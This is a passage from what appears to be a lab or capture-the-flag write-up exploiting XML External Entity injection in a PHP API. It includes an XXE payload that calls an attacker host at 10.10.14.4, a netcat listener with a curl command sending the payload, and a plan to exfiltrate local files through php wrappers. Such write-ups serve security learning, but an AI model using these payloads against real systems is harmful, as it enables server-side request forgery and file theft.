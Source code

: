 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
  <method>POST</method>
  <uri>/auth/register</uri>
  <user>
    <username>garbage</username>
    <password>garbage</password>
  </user>
</root>
```
{:.nolineno}

It also looks like we can control the URI and HTTP verb of the server-side request.

### XML External Entities

Let's send some [XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing) payloads and set up a callback listener since this endpoint is processing client-supplied XML. We could probably just leave out the _user_ element since we aren't actually using the registration feature.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE x [<!ENTITY ssrf SYSTEM "http://10.10.14.4/check">]>
<root>
  <method>GET</method>
  <uri>/&ssrf;</uri>
</root>
```
{:file="xxe-test.xml" .nolineno}

```bash
# bryan@red_team (bash)
session="" # PHPSESSID value here
nc -lvn $lhost 80 &
timeout 2 curl -i "$vhost[1]/api" -b "PHPSESSID=$session" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode "manage_api=$(cat xxe-test.xml)"
```
{:.nolineno}

We get an HTTP callback indicating that the application is vulnerable.

#### File Disclosure

We could just use the _file_ wrapper to exfiltrate local files, but that might cause some issues from special characters. We know that this is a PHP application (hence the _PHPSESSID_), so something like the _php_ wrapper would be preferable.

We have at least a couple of options when it comes to reading the file contents:
- add the entity to the _uri_ field so that the 404 response body contains the rendered value.
- direct the request to our own HTTP server with the **@** character

We'll choose the second option because it's a bit sneakier plus we don't have to worry about the encoded file being too long. We just need to setup a HTTP server that will read the encoded file and reflect the decoded contents.
